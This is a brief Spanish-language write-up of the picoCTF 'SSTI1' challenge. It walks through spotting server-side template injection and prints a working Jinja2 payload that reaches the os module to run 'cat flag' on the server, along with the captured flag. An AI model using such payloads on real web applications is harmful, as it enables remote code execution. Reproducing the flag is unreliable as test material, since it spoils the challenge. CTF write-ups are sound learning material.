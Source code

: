 
## Descripción 

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:61330/)!
### pista

Server Side Template Injection
## Solución

- Entramos en la pagina.
![[05-SSTI1_IMG1.png]]
- Verificamos si la plantilla es vulnerable.
![[05-SSTI1_IMG2.png]]
- Una vez que sabemos que es vulnerable obtenemos la clase del objeto config, obtener sus variables, etc.
![[05-SSTI1_IMG3.png]]
- ponemos el siguiente payload: {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
- Vemos que obtenemos la bandera.
![[05-SSTI1_IMG4.png]]



```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
```

## Referencias

- https://youtu.be/qji8Wp0-1Rs?si=Ic6Wl4KxwzrgmrL-